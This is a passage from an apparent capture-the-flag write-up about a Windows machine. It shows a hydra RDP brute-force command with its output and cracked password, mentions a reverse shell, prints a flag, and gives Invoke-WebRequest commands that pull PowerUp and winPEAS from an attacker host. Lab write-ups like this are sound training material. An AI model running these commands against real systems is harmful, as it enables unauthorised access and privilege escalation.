 The files doesn't have any interesting details. We can see an interesting shortcut `\Public\mark.lnk` refereeing  to a potential user called `mark`

I checked first smb with the user `mark` using empty/same user as password, but without success.

## RDP 

We already have RDP, so I bruteforce the password for our user using hydra

```
hydra -l mark -P /usr/share/wordlists/rockyou.txt rdp://10.8.0.3
```

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-07 04:55:17
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking rdp://10.8.0.3:3389/
[STATUS] 381.00 tries/min, 381 tries in 00:01h, 14344018 to do in 627:29h, 4 active
[3389][rdp] host: 10.8.0.3   login: mark   password: pumpkin
```

We have a match with the password `pumpkin`

I logged to the machine using rdesktop and setup a reverse shell to have handy access to the machine

![Pasted image 20240207110046](https://github.com/BaadMaro/baadmaro.github.io/assets/72421091/36a1617c-2f51-4949-906b-c0729a79cc53)

The first flag is located in Desktop/local.txt (if I remember it correctly)

```
Bastion_0x_SHilling-kj1b249mav2qdt8br9xpxlypprfgyo0s
```

Now we need to get access to Administrator to complete the first machine.

## Privilege escalation

When dealing with privilege escalation, I go with PowerUp and winPEAS. I started by uploading them to the machine

```
PS C:\Users\mark> Invoke-WebRequest -Uri http://10.8.0.4:8000/PowerUp.ps1 -OutFile p.ps1
PS C:\Users\mark> Invoke-WebRequest -Uri http://10.8.0.4:8000/winPEASany.exe -OutFile w.exe
```

I checked PowerUp first
